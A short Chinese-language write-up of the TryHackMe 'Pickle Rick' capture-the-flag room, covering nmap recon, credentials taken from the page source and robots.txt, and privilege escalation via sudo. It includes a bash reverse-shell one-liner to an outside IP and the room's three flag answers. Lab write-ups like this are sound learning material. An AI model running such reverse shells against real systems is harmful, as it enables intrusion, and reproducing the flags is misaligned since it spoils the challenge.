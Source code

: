 # Pickle Rick Writeup
> URL : https://tryhackme.com/room/picklerick
IP: 10.10.223.99

## Recon
- `nmap -A 10.10.223.99`
	- ![](https://i.imgur.com/9Qp6IZr.png)
	- 22 port 
	- 80 port
- 首頁原始碼
	- ![](https://i.imgur.com/3GxwBdt.png)
	- 提示 username : `R1ckRul3s`
- robots.txt
	- ![](https://i.imgur.com/rk9iz1l.png)
	- `Wubbalubbadubdub`
## Login
- ![](https://i.imgur.com/700dfoQ.png)
	- 使用 Username : `R1ckRul3s`
	- Password : `Wubbalubbadubdub`

## Webshell
- 進入後就是一個 webshell
	- 戳成 reverse shell
		- `bash -c 'bash -i >& /dev/tcp/10.13.21.55/7877 0>&1'`

- Flag1
	- ![](https://i.imgur.com/9jULhML.png)
	- 在 web 目錄
	- `mr. meeseek hair`

- Flag2
	- ![](https://i.imgur.com/5cgM6zS.png)
	- 在 rick 家目錄
	- `1 jerry tear`

- Flag3
	- ![](https://i.imgur.com/kKcUno1.png)
	- 發現可以直接 `sudo su`
	- 所以就進 root 取得最後一個 flag
	- `fleeb juice`


